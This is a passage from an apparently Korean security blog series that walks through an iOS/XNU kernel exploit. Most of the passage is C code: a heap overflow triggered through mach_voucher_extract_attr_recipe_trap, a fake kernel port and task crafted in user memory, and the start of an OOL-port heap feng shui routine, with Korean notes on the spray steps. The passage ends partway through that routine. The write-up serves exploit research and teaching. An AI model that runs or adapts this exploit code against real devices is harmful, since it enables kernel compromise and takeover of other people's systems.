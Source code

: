     
    uint8_t* recipe = (uint8_t*)start;
    
    memset(recipe, 0x41, kalloc_size); // set kalloc size
    memcpy(recipe + kalloc_size, overflow_data, overflow_length); // set overflow bytes
    
    kern_return_t err = mach_voucher_extract_attr_recipe_trap(voucher_port, 1, recipe, recipe_size); // Trigger

}
/* -------------------- */
---
mach_port_t* voucher_port = MACH_PORT_NULL;
mach_voucher_attr_recipe_data_t atm_data = {
	.key = MACH_VOUCHER_ATTR_KEY_ATM,
	.command = MACH_VOUCHER_ATTR_ATM_CREATE
};
kern_return_t err = host_create_mach_voucher(mach_host_self(), (mach_voucher_attr_raw_recipe_array_t)&atm_data, sizeof(atm_data), &voucher_port);

ipc_object* fake_port = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANON, -1, 0); // alloc fake_port
void* fake_task = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANON, -1, 0); // alloc fake_task
fake_port->io_bits = IO_BITS_ACTIVE | IKOT_CLOCK; // for clock trap
fake_port->io_lock_data[12] = 0x11;
printf("[+] Create Fake Port. Address : %llx\n", (unsigned long long)fake_port);
heap_overflow(0x100, 0x8, (unsigned char *)&fake_port, voucher_port);
{% endhighlight %}

<br>

#### (2) OOL Port Fengshui

이전 블로그 시리즈에서 OOL Port에 대해 잠깐 언급하였듯이, 커널 힙에 데이터를 넣어 스프레이 및 풍수 기법을 사용하고자 OOL Port를 사용한다. 그 이유는 OOL Port 데이터가 수신 전까지 커널에서 보존되기 때문이다.

포트 풍수의 단계를 간략히 설명하면 아래와 같다:

1. 대량의 포트 생성
2. 메시지 생성 (송신용, 수신용)
3. 주소로 사용되어질 더미 포트(MACH_PORT_DEAD) 다수 생성
4. 메시지 송신
5. 메시지 수신
6. 메시지 재송신

위의 과정을 거치면, OS가 송신과 수신을 반복한 포트가 모여 있는 주소 주변에 데이터를 할당해준다.

사용된 코드는 아래와 같다:

{% highlight c %}
struct ool_send_msg{
	mach_msg_header_t msg_head;
	mach_msg_body_t msg_body;
	mach_msg_ool_ports_descriptor_t msg_ool_ports[16];
};

struct ool_recv_msg{
	mach_msg_header_t msg_head;
	mach_msg_body_t msg_body;
	mach_msg_ool_ports_descriptor_t msg_ool_ports[16];
	mach_msg_trailer_t msg_trailer;
};
struct ool_send_msg send_msg;
struct ool_recv_msg recv_msg;
mach_port_t* ool_port_fengshui(){
	int current_port_num = 0;
	mach_port_t* ool_ports;
	ool_ports = calloc(PORT_COUNT, sizeof(mach_port_t));
